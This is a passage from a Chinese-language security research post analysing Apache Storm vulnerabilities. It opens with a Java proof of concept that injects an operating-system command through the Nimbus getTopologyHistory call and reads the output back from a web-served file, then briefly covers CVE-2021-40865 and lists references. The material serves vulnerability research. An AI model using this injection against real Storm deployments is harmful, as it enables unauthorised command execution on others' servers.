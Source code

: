 ```Java
        config.put("nimbus.seeds", seeds);
        config.put("storm.nimbus.retry.times", 5);
        config.put("storm.nimbus.retry.interval.millis", 2000);
        config.put("storm.nimbus.retry.intervalceiling.millis", 60000);
        config.put("nimbus.thrift.port", 6627);
        config.put("nimbus.thrift.max_buffer_size", 1048576);
        config.put("nimbus.thrift.threads", 64);
        NimbusClient nimbusClient = new NimbusClient(config, "localhost", 6627);
        nimbusClient.getClient().getTopologyHistory("foo;" + command + "> ../public/js/log.min.js; id");
        String response = HttpRequest.get("http://127.0.0.1:8082/js/log.min.js").body();
        System.out.println(response);
    }

}
```

![](assets/1711960555-c6f56cae2db5714a835fb44db173cb1b.png)

### **CVE-2021-40865**

复现如下                                                            

![](assets/1711960555-3aecb2edd985b1d0ddc0cc1091754315.png)

![](assets/1711960555-ad4e119e24a61db3f0ea23b90644a0fd.png)

该利用暂时没有可用的 gadget 配合进行 RCE。

## **0x03 写在最后**

由于本次分析时调试环境一直起不来，因此直接静态代码分析，可能会有漏掉或者错误的地方，还请师傅们指出和见谅。

## **0x04 参考**

[https://www.w3cschool.cn/apache\_storm/apache\_storm\_installation.html](https://www.w3cschool.cn/apache_storm/apache_storm_installation.html)

[https://securitylab.github.com/advisories/GHSL-2021-086-apache-storm/](https://securitylab.github.com/advisories/GHSL-2021-086-apache-storm/)

[https://securitylab.github.com/advisories/GHSL-2021-085-apache-storm/](https://securitylab.github.com/advisories/GHSL-2021-085-apache-storm/)

[https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html](https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html)

[https://github.com/frohoff/ysoserial](https://github.com/frohoff/ysoserial)                      

[https://www.w3cschool.cn/apache\_storm/apache\_storm\_installation.html](https://www.w3cschool.cn/apache_storm/apache_storm_installation.html)

[https://m.imooc.com/wiki/nettylesson-netty02](https://m.imooc.com/wiki/nettylesson-netty02)              

[https://xz.aliyun.com/t/7348](https://xz.aliyun.com/t/7348)
